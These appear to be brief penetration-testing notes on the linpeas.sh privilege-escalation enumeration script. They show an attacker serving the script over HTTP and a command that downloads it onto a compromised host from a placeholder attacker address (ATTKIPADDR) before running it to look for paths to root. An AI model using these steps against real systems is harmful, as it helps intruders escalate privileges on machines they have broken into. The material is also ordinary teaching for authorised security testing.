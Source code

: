 
## Quick-Use

**Commands**:
- Copy or download the `linpeas.sh` shell script found on `https://github.com/peass-ng/PEASS-ng/releases/latest`
- in your attack box, in the folder where you would like to serve the shell script: `python3 -m http.server 80`
- in the shell on the host you're attacking: 
```bash
$ cd /tmp
$ wget http://ATTKIPADDR/linpeas.sh
```

## General

**Objectives**: 
Get shell access on system with write and execute perms -> upload (or download from the reverse shell) linpeas.sh -> execute linpeas

**Overview**:
Shell script that allows you to enumerate potential paths to escalate from a low-level user shell to more authoritative shells and eventually `root`.
## Glossary